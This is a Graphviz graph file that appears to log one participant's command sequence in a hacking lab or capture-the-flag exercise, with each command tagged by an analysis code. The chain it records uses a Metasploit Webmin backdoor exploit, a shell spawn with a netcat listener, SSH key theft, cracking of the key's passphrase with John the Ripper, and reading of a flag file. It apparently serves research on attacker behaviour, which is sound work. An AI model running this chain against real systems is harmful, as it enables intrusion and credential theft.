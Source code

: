 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 M0 "]
	2 [label="msfconsole M2 "]
	3 [label="search webmin M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	5 [label="show options M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run M8 "]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run M8 "]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options M5 "]
	16 [label="run M8 "]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a M10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 M16 "]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
